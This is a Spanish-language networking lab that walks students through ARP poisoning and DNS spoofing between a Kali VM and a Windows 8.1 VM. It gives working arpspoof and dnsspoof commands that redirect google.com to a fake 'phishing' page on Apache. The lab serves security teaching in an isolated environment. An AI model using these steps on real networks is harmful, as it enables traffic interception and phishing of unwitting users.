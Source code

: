 # Práctica de Laboratorio: Envenenamiento de Caché DNS (DNS Spoofing)

**Objetivo:** Realizar un ataque de envenenamiento DNS para redirigir el tráfico de una máquina víctima a un servidor web controlado por el atacante. Este es un tipo de ataque "Man-in-the-Middle" (MitM).

**Máquinas Requeridas:**
*   Una VM con Kali Linux (atacante).
*   Una VM con Windows 8.1 (víctima) en la misma red NAT.

**Herramientas:**
*   `arpspoof` (para envenenar la caché ARP y ponernos en medio de la comunicación).
*   `dnsspoof` (para interceptar y falsear las respuestas DNS).
*   Un servidor web básico en Kali (Apache2).

---

## Parte 1: Preparación del Entorno del Atacante (Kali Linux)

### Paso 1: Habilitar el Reenvío de IP (IP Forwarding)

Para que la máquina víctima no pierda la conexión a internet mientras la atacamos, debemos reenviar los paquetes que interceptemos. De lo contrario, levantaríamos sospechas (sería un ataque de Denegación de Servicio).

```bash
# Habilita el reenvío de IP. El '1' lo activa.
sudo sysctl -w net.ipv4.ip_forward=1
```

### Paso 2: Preparar el Servidor Web Falso

Iniciaremos el servidor Apache2 y crearemos una página de phishing simple.

```bash
# Inicia el servicio de Apache2
sudo systemctl start apache2

# Crea una página web falsa. Este comando sobrescribe el index.html por defecto.
echo "<html><body><h1>Página de Phishing</h1><p>Has sido redirigido.</p></body></html>" | sudo tee /var/www/html/index.html
```

### Paso 3: Crear el Archivo de Hosts para Dnsspoof

`dnsspoof` necesita un archivo que le diga qué dominios envenenar y a qué IP redirigirlos. Crearemos un archivo que redirija `www.google.com` a la IP de nuestra máquina Kali.

1.  **Averigua tu propia IP en Kali:**
    ```bash
    ip addr show eth0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
    ```
    > Apunta tu IP. Para el ejemplo, usaremos `[IP_DE_KALI]`.

2.  **Crea el archivo `hosts.txt`:**
    ```bash
    # Reemplaza [IP_DE_KALI] por tu IP real
    echo "[IP_DE_KALI] *.google.com" > hosts.txt
    echo "[IP_DE_KALI] google.com" >> hosts.txt
    ```

---

## Parte 2: Ejecución del Ataque

Para este ataque, necesitarás 3 terminales de Kali distintas.

### Paso 1: Obtener IPs de la Víctima y del Gateway

*   **IP Víctima (Windows 8.1):** Ya deberías conocerla de laboratorios anteriores. Si no, usa `nmap`. La llamaremos `[IP_VICTIMA]`.
*   **IP del Gateway (Puerta de enlace):** Es la IP de tu router o de la interfaz NAT de Virt-Manager. Puedes encontrarla en Windows con `ipconfig` o en Kali con `ip route | grep default`.
    ```bash
    # Ejemplo de cómo encontrar el gateway en Kali
    ip route | grep default
    ```
    > La llamaremos `[IP_GATEWAY]`.

### Terminal 1: Envenenamiento ARP (ARP Spoofing)

Vamos a decirle a la víctima que nosotros somos el router, y al router que nosotros somos la víctima. Esto nos pone en medio de la comunicación.

```bash
# Engañar a la víctima para que piense que somos el gateway
sudo arpspoof -i eth0 -t [IP_VICTIMA] [IP_GATEWAY]
```

### Terminal 2: Envenenamiento ARP (ARP Spoofing) - Dirección Inversa

```bash
# Engañar al gateway para que piense que somos la víctima
sudo arpspoof -i eth0 -t [IP_GATEWAY] [IP_VICTIMA]
```

### Terminal 3: Envenenamiento DNS (DNS Spoofing)

Ahora que el tráfico pasa por nosotros, interceptamos las peticiones DNS y respondemos con nuestra IP falsa para los dominios que especificamos en `hosts.txt`.

```bash
# Ejecuta dnsspoof con nuestro archivo de hosts
sudo dnsspoof -i eth0 -f ./hosts.txt
```

---

## Parte 3: Verificación en la Máquina Víctima (Windows 8.1)

1.  Abre un navegador web en la máquina Windows.
2.  Intenta navegar a `http://www.google.com` (es importante usar `http` y no `https` para este lab, ya que `https` (HSTS) puede prevenir el ataque en navegadores modernos).
3.  **Resultado:** En lugar de ver la página real de Google, deberías ver la "Página de Phishing" que creaste en tu servidor Apache.

### Limpieza

Cuando termines, detén los tres comandos en las terminales de Kali (con `Ctrl+C`) y desactiva el reenvío de IP para devolver la red a su estado normal.

```bash
sudo sysctl -w net.ipv4.ip_forward=0
sudo systemctl stop apache2
```

¡Felicidades! Has interceptado tráfico de red y has suplantado un registro DNS para redirigir a una víctima.